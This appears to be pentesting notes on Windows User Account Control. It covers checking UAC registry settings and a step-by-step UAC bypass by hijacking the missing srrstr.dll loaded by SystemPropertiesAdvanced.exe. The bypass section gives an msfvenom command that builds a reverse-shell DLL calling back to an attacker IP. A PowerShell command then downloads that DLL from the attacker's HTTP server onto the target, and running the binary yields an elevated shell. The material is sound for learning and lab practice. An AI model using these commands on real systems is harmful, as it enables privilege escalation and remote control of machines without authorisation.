 # User Account Control 

UAC is a features enabling a consent prompt for elevated activities.

[UACME](https://github.com/hfiref0x/UACME) references a ton of UAC bypasses.

## Checking UAC 

Checking if UAC is enabled :
```powershell
PS C:\> reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

Checking UAC level : 
```powershell
PS C:\> reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```
Here, it is `0x5`, which means the highest UAC level of `Always Notify` is enabled. Fewer UAC bypasses work at this level

## Example UAC Bypass by DLL Hijacking

We will use a technique described in [this blog post](https://egre55.github.io/system-properties-uac-bypass/). It's number 54 in [UACME](https://github.com/hfiref0x/UACME).<br>
It works by DLL Hijacking a auto-elevating binary. <br>
Precisely, we will hijack the non existent `srrstr.dll`, needed by `SystemPropertiesAdvanced.exe` which is auto-elevating, like other SystemProperties binaries.

> This specific technique has been patched in Windows 10 19H1 (18362). 
> There are plenty of others that still work tho, check out UACME


We should first generate a malicious dll using msfvenom :
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.133 LPORT=8443 -f dll -o srrstr.dll
```
Then, start your listener and a http server to download the malicious dll on the target, and download it where SystemPropertiesAdvanced.exe will look for it, in \AppData\Local\Microsoft\WindowsApps\
```powershell
Invoke-WebRequest -Uri "http://10.10.14.133/srrstr.dll" -OutFile "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

> You can test your dll using `rundll32 shell32.dll,Control_RunDLL <PATH TO DLL>`

After that, just execute the SystemPropertiesAdvanced.exe binary, you should receive an elevated shell showing all the privileges available :D

